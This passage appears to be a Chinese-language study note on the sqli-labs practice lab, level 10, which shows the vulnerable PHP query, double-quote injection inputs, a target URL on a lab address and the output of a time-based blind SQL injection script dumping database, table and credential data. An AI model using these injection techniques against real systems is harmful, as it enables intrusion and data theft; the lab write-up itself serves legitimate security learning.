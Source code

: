 ```bash
| 11 | admin3     | admin3   |
| 12 | dumbo      | dhakkan  |
| 14 | admin4     | admin4   |
+----+------------+----------+
```

# Pass10

```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

双引号闭合

`?id=1"`显示You are in...........
`?id=1"`也显示You are in...........

与Less9的区别在于闭合方式为 双引号，
同样是时间盲注

使用python时间盲注脚本

[time-blind.py](https://www.yuque.com/attachments/yuque/0/2022/py/29430497/1668822269804-e683f9ad-2d5c-4eda-bfe6-cdc0578a20b1.py?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fpy%2F29430497%2F1668822269804-e683f9ad-2d5c-4eda-bfe6-cdc0578a20b1.py%22%2C%22name%22%3A%22time-blind.py%22%2C%22size%22%3A3709%2C%22type%22%3A%22text%2Fx-python%22%2C%22ext%22%3A%22py%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22mode%22%3A%22title%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22uccc0b203-7879-4264-955e-69651a58aa2%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22ua027682d%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)

> url = 'http://192.168.31.193/Less-10/?id=1"'

```bash
┌──(root㉿guoyx)-[/home/kali/sql-python]
└─# python3 time-blind.py 
数据库名为->s
数据库名为->se
数据库名为->sec
数据库名为->secu
数据库名为->secur
数据库名为->secur
数据库名为->securt
数据库名为->securty
第一个表为->e
第一个表为->em
第一个表为->ema
第一个表为->emai
第二个表为->f
第二个表为->fe
第三个表为->s
字段二为->H
字段二为->H*
```
